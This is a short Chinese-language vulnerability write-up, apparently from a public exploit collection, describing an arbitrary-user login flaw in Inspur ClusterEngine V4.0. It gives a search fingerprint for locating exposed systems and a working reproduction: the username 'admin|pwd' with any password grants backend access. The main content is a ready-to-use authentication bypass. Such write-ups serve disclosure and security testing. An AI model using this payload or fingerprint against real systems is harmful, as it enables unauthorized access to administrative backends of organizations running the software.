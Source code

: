 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

# 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](/images/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](/images/202202091850228.png)

